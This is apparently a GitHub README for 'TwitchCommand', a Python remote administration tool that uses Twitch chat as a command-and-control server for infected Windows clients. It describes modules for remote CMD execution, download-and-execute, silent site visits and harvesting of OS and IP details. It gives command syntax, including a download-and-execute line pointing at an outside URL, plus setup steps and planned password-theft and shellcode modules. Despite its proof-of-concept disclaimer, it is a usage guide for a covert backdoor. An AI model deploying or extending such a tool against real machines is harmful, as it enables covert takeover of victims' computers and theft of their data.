 # TwitchCommand [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/) [![Canadian Mental Health Association](https://i.imgur.com/GvXBeY4.png)](https://cmha.ca/donate)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features/Modules
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC. Now supports all file types.

`visit`  Silently visits a website. Structured as `visit link`

`exit` Disconnects the tageted client(s). This does not remove the file. Structured as `exit`

`info` Returns the clients OS (including exact version) and IP address. Structured as `info`

`mbox` Opens a messagebox on the users pc. Structured as `mbox message`


# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.

An example cmd command would be:

`!act all cmd start.`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC. Note that the photo is from an older version and True is no longer required.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe`


# Creating the program.
### Coming soon: a builder.
The requirements list is currently not necessary but will be for future builds.

Making the program is quite simple. 
- Change the NICK value on line 11 to your Twitch username.
- Change the PASS value on line 12 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 13 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- CLIENT_ID and the email information are currently not in use. The email functions will be used for password recovery and the CLIENT_ID will be a Imgur API client ID for screenshot uploads.

# Upcoming features
- Password recovery module.
- Screenshot module.
- Shellcode execution module (maybe.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.

# Acknowledgements
- n00py and Coalfire Research for inspiration from the [Slackor project.](https://github.com/Coalfire-Research/Slackor)
- nathanlopez from the Stitch project for the `mbox` [code.](https://github.com/nathanlopez/Stitch/blob/master/PyLib/popup.py)
